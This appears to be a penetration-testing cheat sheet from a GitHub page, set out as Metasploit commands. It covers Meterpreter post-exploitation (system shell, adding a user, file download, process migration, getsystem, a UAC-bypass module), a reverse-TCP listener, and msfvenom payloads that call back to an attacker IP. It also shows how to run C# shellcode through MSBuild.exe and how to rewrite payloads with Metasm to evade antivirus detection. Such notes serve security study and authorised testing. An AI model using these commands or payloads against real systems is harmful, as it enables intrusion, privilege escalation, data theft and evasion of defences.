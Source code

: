 	
### Meterpreter:
  - To start a system shell `shell`
  - To get system info and the architecture that meterpreter is running on `sysinfo`
  - To execute a system command  `execute -f <command>` to run the same command interactively (show output) `execute -if <command>` e.g., `execute -if net user /add <user> <password>`
  - To search for files on the system `search -f *.txt`
  - To elevate privileges of existing session:
    - To migrate to a different process in the systeme `migrate -N <process name>` or `sessions -i <session number> -C "migrate -N <process name>"`.
      - some exploits/modules need to run on processes of certain architecture (X86 x64) check current architecture of meterpreter session by running ` `
    - Use a priviledge elevation exploit like a UAC bypass e.g., `exploit/windows/local/bypassuac_injection`
    - Try `getsystem` to get local system privs
  - To download/retrieve a file from the remote system `download file/path/loot.fl`
  - Upload file to target `upload /local/file/path /dest/file.path`
  - list running processes `ps`

### Setting up listeners 
- For payloads or persistence that will call back to the attack host and if needed choose to deliver a payload when connection is established:
  - `use exploit\multi\handler`
    - set a payload (optional) `set payload windows/meterpreter/reverse_tcp`
    - `set lhost <your ip>`
    - `run` and wait for connection back

### MSFVenom
- Creating a payload that uses the windows/meterpreter/reverse_tcp exploit:
  - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your attacker system listeing> LPORT=<your port> -f <file output type> -o <file output name> --platform <windows/etc> -a <architecture e.g., x86>`
  - Create a C# (C-sharp) shellcode paylaod that can be run with Windows LOLBIN MSBuild.exe (After being inserted into a csharp wrapper). 
    - `msfvenom -p <payload name> -LHOST=<lhost> -LPORT=<lport> -f csharp > payload.cs`
    - example csharp wrapper (shellcode needs to be replaced with custom one) https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml
    - then start a msfconsole listener with an `exploit/multi/handler` on the same port/ip as the paylaod`
  -e.g., `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f raw -o output.raw --platform widows -a x86`
- Good CheatSheet here https://pentestwiki.org/msfvenom-payloads-cheat-sheet/
  

## METASM
### DISASSEMBLE.RB
Use to convert from RAW binary output to .ASM format. From here you can do some ghostwritting to avoid detection
- `ruby /opt/metasm/samples/disassemble.rb PAYLOAD.RAW > payload.asm`
### PEENCODE.RB
After ghostwriting to modify signature compile the assembly file into PE format again. 
- `ruby /opt/metasm/samples/peenconde.rb payload.asm -o payload.exe`
